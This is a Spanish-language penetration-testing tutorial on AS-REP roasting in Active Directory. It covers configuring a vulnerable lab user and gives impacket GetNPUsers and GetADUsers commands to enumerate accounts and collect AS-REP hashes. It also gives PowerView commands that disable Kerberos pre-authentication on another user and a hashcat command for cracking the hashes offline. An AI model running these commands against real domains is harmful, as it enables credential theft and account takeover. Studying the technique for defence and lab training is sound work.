

# AS-REP Roast

# ¿Cómo surge un AS-REP ROAST?

---

La vulnerabilidad **ASREPRoast** ocurre cuando algún usuario del dominio tiene habilitado el atributo `DONT_REQ_PREAUTH` , este atributo permite que cualquiera pueda generar una respuesta `KRB_AS_REP` sin necesidad de realizar la autenticación previa que se realiza en el primer (`KRB_AS_REQ`) paso Kerberos.

](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

En una respuesta `KRB_AS_REP` el **KDC** responde al usuario con el ticket **TGT** y **una clave de sesión cifrada** con la contraseña de dicho usuario, esta sesión es lo que necesitamos para crackearla offline con herramientas como **Jhon The Ripper** o **Hashcat**.

# Preparación de entorno vulnerable

---

Para causar la vulnerabilidad tenemos que habilitar el `DONT_REQ_PREAUTH` a algún usuario del dominio.

Nos dirigirnos a ***Administrador del Servidor > Herramientas > Usuarios y equipos de Active Directory*** y en el menú lateral izquierdo buscamos la carpeta llamada ***Usuarios***.


Luego damos click derecho en el usuario al que queremos hacer vulnerable y nos vamos a ***Propiedades***.


Y vamos a la pestaña ***Cuenta***, en ***Opciones de cuenta*** marcamos ***No pedir la autenticación Kerberos previa*** y aplicamos los cambios.


Con estos pasos este usuario ya sería vulnerable a ASREP-Roast

# Explotación

---

### 1. Sin Credenciales Válidas

En caso de que no tuvieramos credenciales para encontrar los usuaros que tengan el atributo `DONT_REQ_PREAUTH` habilitado podemos usar un diccionario de posibles usuarios - https://github.com/attackdebris/kerberos_enum_userlists - y con herramientas como **`*GetNPUsers*`** de la suite de **`*impacket*`** podemos empezar a probar los usuarios para encontrar aquellos tengan.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -dc-ip IP_DC -usersfile NOMBRE_ARCHIVO_USUARIO.txt
	-no-pass -format hashcat
```

Ejemplo de uso:



### 2. Con Credenciales Válidas

En caso de tener credenciales previamente adquiridas usaremos la herramienta **`*GetADUsers*`** de **`*impacket*`** para enumerar los usuarios del dominio.

```bash
impacket-GetADUsers NOMBRE_DOMINIO/USUARIO:CONTRASEÑA -all -dc-ip IP_DC
```

Ejemplo de uso:


Con esto deberíamos obtener todos los usuarios del dominio los cuales guardaremos en un archivo de texto para una vez más usar la herramienta **`*GetNPUsers*`** de **`*impacket*`** para obtener los usuarios con el atributo `DONT_REQ_PREAUTH` habilitado.

```bash
impacket-GetNPUsers NOMBRE_DOMINIO/ -userfile NOMBRE_ARCHIVO_USUARIO.txt -dc-ip IP_DC -format hashcat
```

Ejemplo de uso:


# ¿Qué pasa si no hay usuarios con el `DONT_REQ_PREAUTH` habilitado?

---

Si no hay usuarios dentro del dominio con el atributo `DONT_REQ_PREAUTH` habilitado pero, nuestro tuvieramos un usuario con permisos de `GenericWrite`, `GenericAll` o similares sobre otro usuario podríamos con:

```bash
Set-DomainObject -Identity USERNAME -XOR @{useraccountcontrol=4194304} -Verbose
```

o 

```bash
Set-DomainObject -Identity USERNAME -XOR @{useraccountcontrol=0x00400000} -Verbose
```

habilitarle el privilegio `DONT_REQ_PREAUTH` a un usuario.

> NOTA: **4194304** o **0x00400000** es el bitmark de la politica que indica que dicho permiso está activo.
> 

# Crackeo de los hashes encontrados

---

Para crackear los hashes obtenidos guardamos los hashes en un archivo y, en este caso, usamos **`*hashcat*`** para crackear el hash.

```bash
hashcat -a 0 -m 18200 ARCHIVO_HASH DICCIONARIO -O
```

Sustituiremos ***ARCHIVOS_HASH*** con la ruta del archivo donde se encuentran los hashes y ***DICCIONARIO*** con la ruta hacia el diccionario de contraseñas que quieras usar para crackear los hashes